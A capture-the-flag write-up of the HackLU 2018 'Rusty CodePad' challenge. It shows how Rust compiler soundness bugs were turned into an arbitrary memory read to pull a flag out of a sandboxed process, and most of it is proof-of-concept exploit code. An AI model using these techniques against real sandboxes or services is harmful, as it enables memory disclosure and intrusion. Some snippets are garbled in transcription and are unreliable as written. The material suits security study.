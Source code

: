 ```yaml
---
title: HackLU 2018 Rusty CodePad
author: Avi Weinstock
date: 2018-10-18
categories: ctf-writeups
---
```


This is a writeup of the challenge "Rusty CodePad" from the HackLU cybersecurity capture the flag competition in 2018.
I originally posted this writeup at <https://ctftime.org/writeup/11859>

# Writeup

We initially tried submitting safe Rust that used the standard library's File object to read the flag. Sandwiching this in between `println!`'s showed that the process was silently dying after the first print, but before the second print, from which we inferred the existence of the seccomp filter. Attempting to use unsafe code to search the process's own address space was stymied by the presence of `-F unsafe_code` in the build script.

I then tried to find issues on Rust's issue tracker that were tagged "I-unsound", which are compiler bugs known to be able to violate memory safety in "safe" code.

<!--more-->

The first one I tried, <https://github.com/rust-lang/rust/issues/10184>, is an issue with casting a float to an integer and using it to index into an array: due to how LLVM handles float casts, this triggers undefined behavior, leading to LLVM mistakenly thinking that an obscenely large float is in-bounds and optimizing out the bounds check. The issue has a proof of concept in one of the posts:
```
#[inline(never)]
pub fn f(ary: &[u8; 5]) -> &[u8] {
    let idx = 1e100f64 as usize;
    &ary[idx..]
}

fn main() {
    println!("{}", f(&[;; 5])[0xdeadbeef]);
}
```
But unfortunately (for the purposes of exploitation) it panics in debug mode (which codepad uses) because the optimizer isn't invoked, so the bounds check is still there.

The next issue I tried, <https://github.com/rust-lang/rust/issues/27282>, required a bit of work to turn into an arbitrary read. The bug is that it's possible via an interaction of 3 different language features (guard clauses, lambdas, and reborrowing) to change the tag of a value in between the cases of a match statement. This causes an arm of the match statement to be executed with the wrong tag. The initial POC from the thread
```
fn main() {
    match Some(&4) {
        None => {},
        ref mut foo
            if {
                (|| { let bar = foo; bar.take() })();
                false
            } => {},
        Some(s) => println!("{}", *s)
    }
}
```
doesn't allow values to be cast, or arbitrary addresses to be read. If the value were a `Result` instead of an `Option`, this would be easy to weaponise; swapping the tag out on a `Result<A,B>` lets you cast an A to a B. `Result` doesn't have a direct equivalent of `Option::take`, but rewriting it to use a custom sum type and manually implementing `Option::take` gives insight into how to accomplish the cast despite that:
```
enum MyOption { MyNone, MySome(A) }
use MyOption::{MyNone, MySome};

impl MyOption {
    fn take(&mut self) -> Option {
        match ::std::mem::replace(self, MyNone) {
            MyNone => None,
            MySome(x) => Some(x),
        }
    }
}

fn main() {
    match MySome(&4) {
        MyNone => {},
        ref mut foo
            if {
               (|| { let bar = foo; bar.take() })();
               false
           } => {},
        MySome(s) => println!("{}", *s)
    }
}
```
`mem::replace` allows us to swap out the tag just like `Option::take`, and it works on `Result` as well. With this, we can forge a pointer (which is safe since it's not dereferenced as a pointer) to arbitrary memory, cast it to a reference using the bug, and dereference it (since references are guaranteed to point to valid memory in the absence of unsafe code/compiler bugs):
```
fn read_via_27282(addr: usize) -> u8 {
    let mut y = 4;
    let mut x : Result<&mut u8, *mut u8> = Ok(&mut y);
    match x {
        Err(_) => (),
        ref mut foo
            if {
                (|| { let bar = foo; let _err = ::std::mem::replace(bar, Err(addr as _)); })();
                false
            } => (),
        Ok(ref s) => {
            return **s;
        },
    }
    panic!("this is unreachable in release mode, but in debug mode, this gets hit");
}
```
Unfortunately, this also fails to work in debug mode (there's some weird fall-through behaviour instead).

Fortunately, the third issue I looked at, <https://github.com/rust-lang/rust/issues/25860>, does end up working in debug mode. The gadget from the issue has the signature `fn bad<'a, T>(x: &'a T) -> &'static T`, `'a` is an arbitrary lifetime, `'static` is the longest possible lifetime (e.g. the type of stuff in .data, that's never freed). `bad` is operationally the identity, so if you pass it something that gets freed at the end of a block (e.g. any RAII type that internally manages a heap allocation), it still does free it at runtime, but borrowcheck still thinks that the output is live (since it's `&'static` so it lives forever), so it lets you return the freed/dangling value from the block.

This allows us to read arbitrary memory by aliasing a Vec<u8>'s {pointer,capacity,length} fields to a heap-allocated triple of usize's:
```
static UNIT: &'static &'static () = &&(;;

fn foo<'a, 'b, T>(_: &'a &'b (), v: &'b T) -> &'a T { v }

fn bad<'a, T>(x: &'a T) -> &'static T {
    let f: fn(_, &'a T) -> &'static T = foo;
    f(UNIT, x)
}

fn inner() -> &'static Vec<u8> {
    let x = Box::new(Vec::new());
    bad(&*x)
}

let x = inner();
let mut y = Box::new((1usize, 2usize, 3usize));
println!("x: {:?} {} {}", x.as_ptr(), x.capacity(), x.len());

let mut r = |addr: usize| { y.0 = addr; x[0] };
```

Concurrently to my testing of the bugs, my teammate glenns found that a sample binary could be downloaded directly from the web interface via `wget https://arcade.fluxfingers.net:1814/cat/target/release/codepad` and reversed it to find that the flag was read into the heap as a pair of u32's, one of which was random, and the other of which was the same random value xor'd with the flag byte.

Combining this knowledge with the arbitrary read via the issue-25860 UAF, we scanned the heap backwards from a fresh allocation to find consecutive words that xor'd to printable ASCII, which yielded the flag.

The complete exploit code is available [on GitHub](https://github.com/aweinstock314/aweinstock-ctf-writeups/blob/80193b18b76822cb1eb1661e91961e11e1641855/hacklu_2018/rustycodepad/exploit_rustycodepad.rs).


